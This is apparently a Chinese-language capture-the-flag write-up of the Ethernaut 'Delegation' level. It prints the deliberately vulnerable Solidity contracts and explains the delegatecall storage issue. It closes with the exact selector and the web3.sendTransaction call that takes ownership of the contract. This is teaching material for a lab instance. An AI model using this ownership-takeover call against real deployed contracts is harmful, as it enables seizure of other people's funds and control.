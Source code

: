 ```yaml
---
layout: post
title: Delegation
---
```


# Delegation
关于delegatecall
```solidity
pragma solidity ^0.4.18;

contract Delegate {

  address public owner;

  function Delegate(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  function Delegation(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  function() public {
    if(delegate.delegatecall(msg.data)) {
      this;
    }
  }
}
```

### 代码分析
```solidity
function() public {
    if(delegate.delegatecall(msg.data)) {
      this;
    }
  }
```
fallback函数使用了delegatecall，该调用不会修改state为Delegation的storage而不是Delegate的storage。可参照
[网上的说明](https://ethereum.stackexchange.com/questions/3667/difference-between-call-callcode-and-delegatecall)查看以太坊call的相关区别

### 攻击方法
1. 向合约地址发送一条交易，并且msg.data为bytes4(keccak256("pwn()"))，该字符串可以通过web3.sha3("pwn()")
获得，"0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab"，其中methodID为前8位，即
"0xdd365b8b";所以调用web3.sendTransaction({to:"your instance address", data:"0xdd365b8b"}, function(err, hash){})